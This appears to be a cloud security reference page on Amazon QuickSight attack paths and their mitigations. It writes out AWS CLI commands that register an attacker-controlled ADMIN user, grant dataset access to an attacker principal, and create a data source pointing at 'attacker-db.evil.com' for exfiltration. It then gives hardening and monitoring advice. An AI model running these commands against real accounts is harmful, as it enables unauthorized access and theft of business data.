

Amazon QuickSight is a serverless, cloud-scale business intelligence (BI) service. Attackers target QuickSight to access visualized business data, exploit data source connections to reach backend databases, exfiltrate SPICE dataset contents, and abuse embedded dashboard URLs to leak sensitive analytics.
QuickSight connects to S3, Athena, RDS, Redshift, Aurora, OpenSearch, and on-prem databases. Data can be queried directly or imported into SPICE for in-memory performance.
Dashboards can be shared or embedded in external applications via signed URLs. QuickSight manages its own user directory with Admin, Author, and Reader roles, separate from IAM.
QuickSight aggregates data from multiple backend sources into a single analytics layer. Compromising it can expose summarized business data, reveal backend database connection details, and provide a pivot point to underlying data stores.
aws quicksight list-dashboards \
--aws-account-id 123456789012aws quicksight list-data-sets \
--aws-account-id 123456789012aws quicksight list-data-sources \
--aws-account-id 123456789012aws quicksight describe-data-source \
--aws-account-id 123456789012 \
--data-source-id my-data-source-idaws quicksight list-users \
--aws-account-id 123456789012 --namespace defaultaws quicksight register-user \
--aws-account-id 123456789012 \
--namespace default --identity-type IAM \
--iam-arn arn:aws:iam::123456789012:user/attacker \
--user-role ADMIN --email attacker@example.comaws quicksight update-data-set-permissions \
--aws-account-id 123456789012 \
--data-set-id target-dataset-id \
--grant-permissions Principal=ATTACKER_ARN,Actions=quicksight:DescribeDataSet,quicksight:UpdateDataSetaws quicksight describe-data-source \
--aws-account-id 123456789012 \
--data-source-id target-ds-idaws quicksight create-data-source \
--aws-account-id 123456789012 \
--data-source-id exfil --name exfil --type MYSQL \
--data-source-parameters '{"MySqlParameters":{"Host":"attacker-db.evil.com","Port":3306,"Database":"exfil"}}'{
"Effect": "Allow",
"Action": "quicksight:*",
"Resource": "*"
}Full access allows user registration as Admin, data source creation, dataset export, and embedded URL generation
{
"Effect": "Allow",
"Action": [
"quicksight:DescribeDashboard",
"quicksight:ListDashboards",
"quicksight:GetDashboardEmbedUrl"
],
"Resource": "arn:aws:quicksight:*:*:dashboard/*"
}Scoped to dashboard-only access without data source or dataset modification
{
"Effect": "Deny",
"Action": "quicksight:RegisterUser",
"Resource": "*"
}Prevents unauthorized QuickSight user registration (especially ADMIN role)
Apply RLS on all shared datasets and CLS to hide sensitive columns. Enterprise edition required. Owners bypass RLS.
Enable CMK encryption for SPICE datasets via the QuickSight console under SPICE encryption settings.
Use VPC connections to access private data sources without traversing the public internet.
Deny quicksight:RegisterUser for non-admin principals. Monitor RegisterUser CloudTrail events.
Store database credentials in Secrets Manager rather than directly in QuickSight data source configurations.
Alert on RegisterUser (especially ADMIN), CreateDataSource, UpdateDataSetPermissions, and GenerateEmbedUrlForAnonymousUser.